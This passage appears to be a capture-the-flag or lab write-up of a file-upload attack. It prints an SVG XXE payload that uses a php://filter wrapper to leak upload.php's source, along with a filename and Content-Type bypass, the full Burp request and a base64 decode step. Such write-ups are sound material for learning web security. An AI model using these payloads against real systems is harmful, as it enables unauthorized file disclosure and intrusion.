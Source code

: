 ### Successful Content-Types

**Attack Results:**
```
✅ image/jpg     - Upload successful (190+ bytes response)
✅ image/jpeg    - Upload successful  
✅ image/png     - Upload successful
✅ image/svg+xml - Upload successful ⭐ (Key finding!)
❌ Others        - "Only images are allowed" (190 bytes)
```

**Critical Discovery:** `image/svg+xml` is allowed, enabling XXE attacks!

---

## Phase 4: Source Code Disclosure via XXE

### SVG XXE Payload Creation

**XXE File Creation:**
```bash
cat << 'EOF' > shell.svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
EOF
```

### Upload Process

**1. Filename Bypass:**
```bash
# Rename for frontend bypass
mv shell.svg shell.jpeg
```

**2. Burp Request Modification:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
----boundary--
```

### Source Code Analysis

**Base64 Decoding:**
```bash
echo 'PD9waHAKcmVxdWlyZV9vbmNlKCcuL2NvbW1vbi1mdW5jdGlvbnMucGhwJyk7...' | base64 -d
```
